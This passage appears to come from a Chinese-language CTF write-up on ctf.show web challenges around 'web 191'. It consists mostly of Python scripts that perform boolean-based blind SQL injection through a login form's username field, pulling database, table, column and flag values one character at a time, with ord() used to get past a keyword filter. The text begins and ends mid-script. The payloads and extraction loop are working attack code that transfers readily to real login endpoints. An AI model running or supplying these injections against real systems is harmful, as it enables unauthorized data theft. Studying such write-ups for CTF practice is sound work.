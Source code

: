 ```python
        #跑列名
        # data={
        #     'username':f"'||if(ascii(substr((select group_concat(column_name)from information_schema.columns where table_name='ctfshow_fl0g'),{i},1))={j},1,0)#",
        #     'password':'1'
        # }
        #跑数据
        data={
            'username':f"'||if(ascii(substr((select f1ag from ctfshow_fl0g),{i},1))={j},1,0)#",
            'password':'1'
        }
        r=requests.post(url,data=data)
        if("\\u5bc6\\u7801\\u9519\\u8bef" in r.text):
            flag+=chr(j)  
            print(flag)
            break
```


## web 191

过滤了用户名里可能包含的ascll字符串

```php
if(preg_match('/file|into|ascii/i', $username)){
```

可以使用ord()函数替换ascii()函数

```python
#author:yu22x
import requests
import string
url="http://f5ac78f2-fd7e-4221-9bf0-d63586ee8a51.challenge.ctf.show/api/index.php"
s=string.ascii_letters+string.digits
flag=''
for i in range(1,45):
    print(i)
    for j in range(32,128):
        #跑库名
        # data={
        #     'username':f"'||if(ord(substr(database(),{i},1))={j},1,0)#",
        #     'password':'1'
        # }

        #跑表名
        # data={
        #     'username':f"'||if(ord(substr((select group_concat(table_name)from information_schema.tables where table_schema=database()),{i},1))={j},1,0)#",
        #     'password':'1'
        # }

        #跑列名
        # data={
        #     'username':f"'||if(ord(substr((select group_concat(column_name)from information_schema.columns where table_name='ctfshow_fl0g'),{i},1))={j},1,0)#",
        #     'password':'1'
        # }
        #跑数据
        data={
            'username':f"'||if(ord(substr((select f1ag from ctfshow_fl0g),{i},1))={j},1,0)#",
            'password':'1'
        }
        r=requests.post(url,data=data)
        if("\\u5bc6\\u7801\\u9519\\u8bef" in r.text):
```